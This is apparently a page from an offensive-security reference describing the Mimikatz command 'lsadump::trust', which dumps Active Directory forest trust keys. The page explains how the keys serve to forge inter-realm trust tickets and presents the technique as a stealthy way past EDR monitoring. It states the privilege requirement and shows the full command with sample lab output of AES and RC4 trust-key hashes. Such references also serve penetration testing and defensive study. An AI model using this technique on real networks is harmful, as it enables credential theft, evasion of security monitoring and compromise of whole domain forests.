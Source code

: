 # trust

`lsadump::trust` can be used for dumping the forest trust keys. Forest trust keys can be leveraged for forging inter-realm trust tickets. Since most of the EDRs are paying attention to the KRBTGT hash, this is a stealthy way to compromise forest trusts.

{% hint style="warning" %}
This command requires elevated privileges (by previously running [privilege::debug](https://tools.thehacker.recipes/mimikatz/modules/privilege/debug) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # lsadump::trust /patch

Current domain: CORP.LAB.LOCAL (corp / S-1-5-21-1874506631-3219952063-538504511)

Domain: EXTERNAL.LOCAL (external / S-1-5-21-280534878-1496970234-700767426)
 [  In ] CORP.LAB.LOCAL -> EXTERNAL.LOCAL
        * aes256_hmac       6994cc6cd1b99bd3869685d14af347e955e9e043f2116ca1665f371efe48fab6
        * aes128_hmac       feeeb865b37c281b21cfa00aee1da71b
        * rc4_hmac_nt       6f9e27669d07b6c7f539c5f6e7fd9f57

 [ Out ] EXTERNAL.LOCAL -> CORP.LAB.LOCAL
        * aes256_hmac       f3417d40bb3e6f2c585e0cb00cf36444b6ebf293407103ca25d8b0650219d82d
        * aes128_hmac       8687ec2ba8ec3e8d8c6e89e94b87792c
        * rc4_hmac_nt       d3b3645b2c8efd19794dfae2dfa6946e

 [ In-1] CORP.LAB.LOCAL -> EXTERNAL.LOCAL
        * aes256_hmac       cec1143242386747b41ea21b071bfa2b211c184699c57cc69bd3f43da57bfef6
        * aes128_hmac       8668ebdcb5b9349b6c279ca9cd421a60
        * rc4_hmac_nt       4a49505568b59490b41724ce676978e5

 [Out-1] EXTERNAL.LOCAL -> CORP.LAB.LOCAL
        * aes256_hmac       9304fef5575424542d1c6cdda1920927cb55df8c203079b51e4e2cfc1cab0d4b
        * aes128_hmac       4cc55daa23d585257ab877914ea42968
        * rc4_hmac_nt       a2639f30fa151b45696631b80f57f4e6
```
